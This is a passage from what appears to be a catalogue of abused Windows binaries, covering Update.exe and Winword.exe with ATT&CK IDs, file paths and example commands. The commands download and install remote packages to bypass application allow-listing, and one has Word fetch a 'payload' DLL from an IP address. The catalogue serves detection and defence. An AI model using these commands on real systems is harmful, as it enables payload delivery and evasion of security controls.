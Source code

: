  

#### Procedures

|Category|Example Command|Description|
|--------|---------------|-----------|
|Download|`Update.exe --download [url to package]`|The above binary will go to url and look for RELEASES file and download the nuget package.|
|AWL Bypass|`Update.exe --update=[url to package]`|The above binary will go to url and look for RELEASES file, download and install the nuget package.|
|AWL Bypass|`Update.exe --update=\\remoteserver\payloadFolder`|The above binary will go to url and look for RELEASES file, download and install the nuget package via SAMBA.|


 

#### Search Queries


> Analytic Goes Here!


 
## Winword.exe

Microsoft Office binary

#### Metadata

|Details||
|-------|---|
|**MITRE ATT&CK Technique IDs**|<div style="text-align: left"><ul><li>T1105</li></ul></div>|
|**Categories**|<div style="text-align: left"><ul><li>Download</li></ul></div>|
|**Relevant Operating Systems**|<div style="text-align: left"><ul><li>Windows</li></ul></div>|
|**File Paths**|<div style="text-align: left"><ul><li>`C:\Program Files\Microsoft Office\root\Office16\winword.exe`</li><li>`C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\winword.exe`</li><li>`C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\winword.exe`</li><li>`C:\Program Files (x86)\Microsoft Office\Office16\winword.exe`</li><li>`C:\Program Files\Microsoft Office\Office16\winword.exe`</li><li>`C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\winword.exe`</li><li>`C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\winword.exe`</li><li>`C:\Program Files (x86)\Microsoft Office\Office15\winword.exe`</li><li>`C:\Program Files\Microsoft Office\Office15\winword.exe`</li><li>`C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\winword.exe`</li><li>`C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\winword.exe`</li><li>`C:\Program Files (x86)\Microsoft Office\Office14\winword.exe`</li><li>`C:\Program Files\Microsoft Office\Office14\winword.exe`</li><li>`C:\Program Files (x86)\Microsoft Office\Office12\winword.exe`</li><li>`C:\Program Files\Microsoft Office\Office12\winword.exe`</li></ul></div>|
|**Code Samples**|<div style="text-align: left"><ul><li>None</li></ul></div>|
|**Acknowledgements**|<div style="text-align: left"><ul><li>Reegun J (OCBC Bank) (@reegun21)</li></ul></div>|
|**Additional Resources**|<div style="text-align: left"><ul><li>https://twitter.com/reegun21/status/1150032506504151040</li><li>https://medium.com/@reegun/unsanitized-file-validation-leads-to-malicious-payload-download-via-office-binaries-202d02db7191</li></ul></div>|

 

#### Procedures

|Category|Example Command|Description|
|--------|---------------|-----------|
|Download|`winword.exe &#34;http://192.168.1.10/TeamsAddinLoader.dll&#34;`|Downloads payload from remote server|


 

#### Search Queries


> Analytic Goes Here!
